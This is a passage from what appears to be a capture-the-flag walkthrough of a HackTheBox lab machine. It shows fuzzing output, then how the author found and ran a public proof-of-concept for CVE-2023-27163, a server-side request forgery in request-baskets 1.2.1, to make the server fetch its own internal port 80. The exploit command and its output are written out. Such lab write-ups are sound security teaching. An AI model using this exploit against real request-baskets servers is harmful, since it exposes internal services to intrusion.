     400      GET        1l       10w       75c http://10.10.11.224:55555/%E8%AE%A8%E8%AE%BA
    400      GET        1l       10w       75c http://10.10.11.224:55555/[0-9]
    [####################] - 1m     30000/30000   0s      found:83      errors:0
    [####################] - 1m     30000/30000   458/s   http://10.10.11.224:55555/
    

It finds some errors, but nothing interesting.

## Shell as puma

### Access Mailtrail

#### Find Exploit

Searching for “request-baskets exploit” leads to [this blog
post](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-
request-forgery-cve-2023-27163-2bab94f201f7) about CVE-2023-27163. It’s a
server-side request forgery (SSRF) vulnerability, which means I can get the
server to send requests on my behalf. The post calls out version 1.2.1 as
vulnerable:

![image-20240104104117044](../img/image-20240104104117044.png)

#### Exploit

There’s a nice POC
[here](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh)
to exploit this. I’ll run it to try to read port 80:

    
    
    oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
    Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163
    
    > Creating the "nunfxp" proxy basket...
    > Basket created!
    > Accessing http://10.10.11.224:55555/nunfxp now makes the server request to http://127.0.0.1:80.
    > Authorization: jNZBYjgQRAzttysfJcl5dcKLBO0YkzLVCkYgEQsbZzXs
    

It gives a URL I can visit to see the results:
